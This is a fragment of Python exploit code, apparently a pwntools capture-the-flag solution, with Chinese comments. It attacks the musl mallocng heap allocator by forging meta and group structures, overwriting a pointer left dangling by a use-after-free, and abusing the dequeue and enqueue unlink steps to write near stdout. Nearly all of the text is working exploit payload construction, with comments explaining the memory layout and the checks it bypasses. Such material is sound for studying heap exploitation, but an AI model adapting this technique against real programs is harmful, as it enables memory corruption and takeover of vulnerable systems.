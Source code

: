     ## dequeue
    ## fake meta
    last_idx, freeable, sc, maplen = 0, 1, 8, 1
    #fake meta
    fake_meta = p64(stout - 0x18)                  # prev
    fake_meta += p64(fake_meta_addr + 0x30)         # next
    fake_meta += p64(fake_mem_addr)                 # mem
    fake_meta += p32(0) + p32(0)                    # avail_mask, freed_mask
    fake_meta += p64((maplen << 12) | (sc << 6) | (freeable << 5) | last_idx) 
    fake_meta += p64(0)
    #fake group
    fake_mem = p64(fake_meta_addr)                  # meta 
    fake_mem += p32(1) + p32(0)                     
    #前一个p32为active idx(实际只有5bit)+pad  
    #后一个p32为第一个chunk的idx，此处由于应为第一个chunk，
    #所以实际应为p32(0x8000)，参见上图，不过用p32(0)结果是一样的
    payload = b'a' * 0xaa0
    #fake meta area
    payload += p64(secret) + p64(0)
    payload += fake_meta + fake_mem + b'\n'
    '''
    实际内存布局：
    0x1200 chunk 头：a*0xaa0
    0x xxx000 fake meta area 
    0x xxx010 fake meta
    0x xxx040 fake group
    '''
    find(payload,0x1200)
    #通过把fake meta、fake group、fake meta_area布置在一个页（0x1000内）来确保对齐

    for i in range(3):
        find(b'4'*0x28,0x28)
    payload = p64(elf_base + 0x4c40) + p64(fake_mem_addr + 0x10) + p64(len(b'vulnerabl')) + p64(0x28) + p64(0)
    add('e'*0x58,0x58,payload,0x28)#覆盖UAF指针指向的manage chunk
    delete(b'vulnerabl',len('vulnerabl'))#释放UAF链表块，包括了释放fake_mem_addr + 0x10
    '''这一次释放是为了在stdout-0x18的地方写入fake_meta_addr + 0x30，
    目的是为了通过最后一次申请时get meta的校验'''
    #gdb.attach(io)
    
    ## enqueue
    last_idx, freeable, sc, maplen = 1, 0, 8, 0 #freeable置0是为了拒绝ok to free校验，防止释放meta
    fake_meta = p64(0)                              # prev
    fake_meta += p64(0)                             # next
    fake_meta += p64(fake_mem_addr)                 # mem
    fake_meta += p32(0) + p32(0)                    # avail_mask, freed_mask
    fake_meta += p64((maplen << 12) | (sc << 6) | (freeable << 5) | last_idx)
    fake_meta += p64(0)
    fake_mem = p64(fake_meta_addr)                  # meta
    fake_mem += p32(1) + p32(0)
    payload = b'a' * 0xa90
    payload += p64(secret) + p64(0)
    payload += fake_meta + fake_mem + b'\n'
    find(payload,0x1200)
